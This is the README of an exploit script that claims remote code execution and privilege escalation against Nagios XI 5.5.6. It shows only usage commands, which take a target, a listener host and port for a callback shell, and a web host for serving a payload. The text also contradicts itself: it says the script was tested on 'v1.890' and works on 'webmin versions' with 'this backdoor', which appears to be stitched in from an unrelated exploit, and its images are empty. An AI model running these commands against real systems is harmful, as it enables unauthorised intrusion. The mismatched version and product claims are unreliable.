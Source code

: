 # Nagios XI 5.5.6 Remote Code Execution and Privilege Escalation

```
1.  Nagios XI 5.5.6
```

### Script Usage:
#### Tested on v1.890, but should also work for other webmin versions in which this backdoor is installed.
`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888`

![]()

`python3 nagiosxi.py -t https://10.10.10.10 -lh 172.16.1.2 -lp 7777 -wh 172.16.1.2 -wp 8888 -shell low`

![]()

